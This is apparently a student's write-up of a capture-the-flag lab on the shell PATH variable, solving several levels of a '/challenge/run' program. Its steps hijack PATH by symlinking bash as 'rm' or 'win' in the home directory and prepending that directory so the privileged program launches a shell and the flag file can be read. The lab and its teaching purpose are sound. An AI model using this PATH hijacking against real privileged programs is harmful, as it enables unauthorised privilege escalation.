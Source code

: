  #Pondering PATH

    
   ##The PATH Variable
    
    I used PATH="" to disrupt the operation of the /challenge/run program, then ran /challenge/run which could not
    find the rm command and hence could not delete the flag
    
    PATH=""
    /challenge/run
    
  ##Setting PATH
    
    I set the path to the directory where the command was present and then executed the command directly
    
    PATH=/challenge/more_commands/
    /challenge/run
    
   ##Adding commands
    
    i used find / -name bash to get the bash to get the path to bash
    then used the ln command to create links between files .
    the command PATH=/home/hacker/:$PATH sets the PATH variable to include the /home/hacker/ directory at the beginning,
    ensuring that any executables in that directory are found first by the shell.
    
    ln -s /usr/bin/bash ./win
    PATH=/home/hacker/:$PATH
    /challenge/run
    cat /flag
    
    (REFERENCES : used help from chat gpt)
    
   ##Hijacking Commands
    
    I used ln command to create a link between the files then used the 
    command PATH=/home/hacker/:$PATH setting the PATH variable to include the /home/hacker/ directory at the beginning,
    ensuring that any executables in that directory are found first by the shell.
    then used /challenge/run to get the flag
    
    ln -s /usr/bin/bash ./rm
    PATH=/home/hacker/:$PATH
    /challenge/run
